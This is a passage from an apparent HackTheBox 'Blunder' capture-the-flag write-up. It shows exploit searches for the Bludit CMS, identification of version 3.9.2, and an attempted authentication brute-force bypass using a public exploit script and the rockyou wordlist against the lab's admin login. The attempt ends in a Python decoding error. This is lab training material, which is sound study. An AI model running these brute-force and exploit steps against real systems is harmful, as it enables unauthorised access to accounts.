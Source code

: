```bash
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

This gives me a username fergus and a possible vulnerability (CMS may not be up to date). I search for an exploit:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/blunder]
└─$ searchsploit bludit    
----------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                         |  Path
----------------------------------------------------------------------- ---------------------------------
Bludit - Directory Traversal Image File Upload (Metasploit)            | php/remote/47699.rb
Bludit 3.9.12 - Directory Traversal                                    | php/webapps/48568.py
Bludit 3.9.2 - Auth Bruteforce Bypass                                  | php/webapps/48942.py
Bludit 3.9.2 - Authentication Bruteforce Bypass (Metasploit)           | php/webapps/49037.rb
Bludit 3.9.2 - Authentication Bruteforce Mitigation Bypass             | php/webapps/48746.rb
Bludit 3.9.2 - Directory Traversal                                     | multiple/webapps/48701.txt
bludit Pages Editor 3.0.0 - Arbitrary File Upload                      | php/webapps/46060.txt
----------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I need to find the version, so I checked the source code and found these lines:

```bash
<!-- Include Bootstrap CSS file bootstrap.css -->
<link rel="stylesheet" type="text/css" href="http://10.10.10.191/bl-kernel/css/bootstrap.min.css?version=3.9.2">

<!-- Include CSS Styles from this theme -->
<link rel="stylesheet" type="text/css" href="http://10.10.10.191/bl-themes/blogx/css/style.css?version=3.9.2">
```

This is probably the bludit version (`3.9.2`). So let's use one of the authentication bypass:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/blunder]
└─$ searchsploit -m php/webapps/48942.py
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/blunder]
└─$ mv 48942.py bludit-auth-bypass.py

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/blunder]
└─$ ./bludit-auth-bypass.py -l http://blunder.htb/admin -u users.txt -p /usr/share/wordlists/rockyou.txt                                                                                                        1 ⨯
[*] Bludit Auth BF Mitigation Bypass Script by ColdFusionX 
     
Traceback (most recent call last):
  File "/hackthebox/oscp-prep/blunder/./bludit-auth-bypass.py", line 99, in <module>
    passfile = open(Password_list).readlines()
  File "/usr/lib/python3.9/codecs.py", line 322, in decode
    (result, consumed) = self._buffer_decode(data, self.errors, final)
UnicodeDecodeError: 'utf-8' codec can't decode byte 0xf1 in position 950: invalid continuation byte
```
